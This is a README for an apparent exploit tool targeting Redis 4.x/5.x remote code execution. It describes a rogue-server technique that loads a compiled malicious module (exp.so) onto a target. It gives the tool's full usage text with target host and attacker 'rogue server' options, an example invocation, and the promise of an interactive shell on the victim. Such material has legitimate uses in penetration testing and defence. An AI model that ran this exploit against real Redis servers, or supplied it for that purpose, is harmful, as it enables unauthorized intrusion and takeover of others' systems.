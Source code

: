 # Redis RCE

A exploit for Redis 4.x/5.x RCE, inspired by [Redis post-exploitation](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf).

This repo is a modified version of <https://github.com/n0b0dyCN/redis-rogue-server> .
## Usage:

Compile exp.so from <https://github.com/RicterZ/RedisModules-ExecuteCommand>.


```
usage: redis-rce.py [-h] -r RHOST [-p RPORT] -L LHOST [-P LPORT] [-f FILE]
                    [-v]

Redis 4.x/5.x RCE with RedisModules

optional arguments:
  -h, --help            show this help message and exit
  -r RHOST, --rhost RHOST
                        target host
  -p RPORT, --rport RPORT
                        target redis port, default 6379
  -L LHOST, --lhost LHOST
                        rogue server ip
  -P LPORT, --lport LPORT
                        rogue server listen port, default 21000
  -f FILE, --file FILE  RedisModules to load, default exp.so
  -v, --verbose         show more info
```

## example:
```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20190708220258.png)

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!
